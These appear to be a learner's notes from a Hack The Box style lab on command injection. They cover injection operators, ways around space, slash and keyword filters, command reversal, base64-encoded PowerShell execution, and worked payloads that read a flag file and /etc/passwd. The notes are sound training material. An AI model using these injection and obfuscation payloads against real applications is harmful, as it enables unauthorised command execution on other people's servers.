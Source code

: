 [Command Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)

To inject an additional command to the intended one, we may use any of the following operators:
| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
|------------------------|-------------------------|-----------------------------|----------------------|
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `\|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `\|\|` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell | `` ` ` `` | `%60%60` | Both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |

Just be mindful that operators may not work on specific set ups:
- In addition to the above, there are a few unix-only operators, that would work on Linux and `macOS`, but would not work on `Windows`, such as wrapping our injected command with double backticks (``) or with a sub-shell operator (`$()`).
- In general, for basic command injection, all of these operators can be used for command injections regardless of the web application language, framework, or back-end server. So, if we are injecting in a `PHP` web application running on a Linux server, or a `.Net` web application running on a `Windows` back-end server, or a `NodeJS` web application running on a macOS back-end server, our injections should work regardless.
- The only exception may be the semi-colon `;`, which will not work if the command was being executed with `Windows Command Line (CMD)`, but would still work if it was being executed with Windows PowerShell.

- Reminder: Nothing in the network tab of dev tools means the filtering is happening on the front-end. It is very common for developers only to perform input validation on the front-end while not validating or sanitizing the input on the back-end.

- If there's front end filtering, intercept a successful POST/GET, and then modify that successful request in BURP.
- If the app says something like "Invalid input" then maybe theres some blacklisted characters - first identify the character and then try encoding or double encoding
- new-line character is usually not blacklisted, as it may be needed in the payload itself. (`\n` | `%0a`)

## Bypassing white spaces
- If spaces are blacklisted, try using tabs (%09) instead of spaces is a technique that may work, as both Linux and Windows accept commands with tabs between arguments, and they are executed the same
- Using the `($IFS)` Linux Environment Variable may also work since its default value is a space and a tab, which would work between command arguments. So, if we use ${IFS} where the spaces should be, the variable should be automatically replaced with a space, and our command should work. e.g `127.0.0.1%0a${IFS}`
- There are many other methods we can utilize to bypass space filters. For example, we can use the Bash Brace Expansion feature, which automatically adds spaces between arguments wrapped between braces, as follows: `Lumington@htb[/htb]$ {ls,-la}` See more here [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)
- `127.0.0.1%0a{ls,-la}` will inject the `ls -la` command

  ## Bypassing `/` or `\`
  One such technique we can use for replacing slashes (or any other character) is through `Linux Environment Variables`
  - For example, if we look at the `$PATH` environment variable in Linux, it may look something like the following:
```
Lumington@htb[/htb]$ echo ${PATH}
/usr/local/bin:/usr/bin:/bin:/usr/games
```
- So, if we start at the 0 character, and only take a string of length 1, we will end up with only the / character, which we can use in our payload:
```
Lumington@htb[/htb]$ echo ${PATH:0:1}
/
```
- We can also use the same concept to get a semi-colon character, to be used as an injection operator.
```
Lumington@htb[/htb]$ echo ${LS_COLORS:10:1}
;
```

Same works on Windows:
```
C:\htb> echo %HOMEPATH:~6,-11%
\

---
OR
---

PS C:\htb> $env:HOMEPATH[0]
\

---
OR
---

PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>

```

## Character Shifting
There are other techniques to produce the required characters without using them, like shifting characters. For example, the following Linux command shifts the character we pass by 1. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with man ascii), then add it instead of [ in the below example. This way, the last printed character would be the one we need:
```
Lumington@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
Lumington@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```
Find the user on in the `home` directory:
-`ip=127.0.0.1%0a{ls,-la,${PATH:0:1}home}`

Find the flag in that users directory:
- `ip=127.0.0.1%0a{c"a"t,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`

## Bypassing commands
### For both `Windows` and `Linux`
- One very common and easy obfuscation technique is inserting certain characters within our command that are usually ignored by command shells like Bash or PowerShell and will execute the same command as if they were not there. Some of these characters are a single-quote ' and a double-quote "
- The important things to remember are that we cannot mix types of quotes and the number of quotes must be even.
- One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`). This usually works because a command blacklist may not check for different case variations of a single word, as Linux systems are case-sensitive.

### For Linux
- commands are case sensitive so case manipulation might work
Both will work: 
```
who$@ami
w\ho\am\i
```

### For Windows
- Commands are case in-sensitive so case manipulation won't work
Use `^`
```
C:\htb> who^ami

21y4d
```
### Command Reversing
Somehow this works..
```
Lumington@htb[/htb]$ echo 'whoami' | rev
imaohw
```
So writing it in reverse and commanding it backwards like this in Linux:
```
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```
And this in Windows:
```
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```
Both will execute the `whoami` command if the command is typed in backwards

**Note: using <<< to avoid using a pipe |, which is a filtered character.**

### Encoding commands
```
Lumington@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```
For this to work on Linux - we would have to convert the string from utf-8 to utf-16 before we base64 it, as follows:
```
Lumington@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```
For this to work on Windows, execute it with a PowerShell sub-shell (iex "$()"), as follows:

```
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```
